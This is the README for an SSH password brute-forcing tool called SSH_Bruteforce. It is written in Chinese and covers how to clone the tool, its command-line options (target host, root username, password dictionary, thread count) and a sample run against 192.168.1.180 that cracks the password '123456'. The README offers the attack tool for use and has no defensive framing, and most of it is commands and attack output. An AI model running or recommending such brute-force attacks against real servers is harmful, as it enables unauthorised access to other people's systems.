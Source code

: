 # SSH_Bruteforce
#### 获取脚本

`git clone https://github.com/HZzz2/SSH_Bruteforce`

#### 进入目录

`cd SSH_Bruteforce`

#### 获取帮助

```Bash
python SSH_Bruteforce.py -h

usage: SSH_Bruteforce.py [-h] -H HOST -u USER -f FILE -t THREAD

exmple: python3 SSH_Bruteforce.py -H 192.168.1.180 -u root -f password.txt -t 10

optional arguments:

  -h, --help            show this help message and exit

  -H HOST, --host HOST  Hostname/IP       要爆破的主机IP

  -u USER, --user USER  Username          SSH用户名

  -f FILE, --file FILE  Password file     密码字典

  -t THREAD, --thread THREAD              线程数

    Thread number
```

#### 执行脚本

```Bash
# python SSH_Bruteforce.py -H 192.168.1.180 -u root -f password.txt -t 10
[-] 11 is not correct
[-] 44 is not correct
[-] 88 is not correct
[-] 55 is not correct
[-] 22 is not correct
[-] 77 is not correct
[+] 123456 is correct
SSH PassWord：123456
```

